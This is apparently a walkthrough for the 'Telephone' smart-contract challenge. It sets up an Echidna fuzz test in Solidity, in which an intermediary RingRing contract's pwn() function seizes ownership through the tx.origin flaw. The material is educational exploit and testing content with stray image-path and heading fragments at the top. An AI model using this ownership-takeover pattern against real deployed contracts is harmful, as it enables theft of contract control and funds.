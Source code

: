 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

## Setup 1
## Test Setup 1

In this test we will use two contracts and the constructor 
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```